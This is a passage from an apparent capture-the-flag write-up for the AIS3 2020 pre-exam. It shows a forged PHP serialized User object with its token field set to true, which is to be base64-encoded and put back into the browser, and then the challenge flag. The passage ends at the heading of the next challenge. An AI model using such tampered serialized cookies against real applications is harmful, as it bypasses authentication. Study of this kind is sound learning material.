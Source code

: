 ```
O:4:"User":2:{s:4:"name";s:4:"Tomy";s:11:"?User?token";b:1;}
```

用 base64 encode 回去，再填回瀏覽器裡

![flag](elephant-flag.png)

Flag：`AIS3{0nly_3l3ph4n75_5h0uld_0wn_1v0ry}`

### 🐍 Snake

![Problem](https://raw.githubusercontent.com/tomy0000000/AIS3-2020-PreExam/main/Problems/%F0%9F%8C%90%20Web/%F0%9F%90%8D%20Snake/Problem.png)
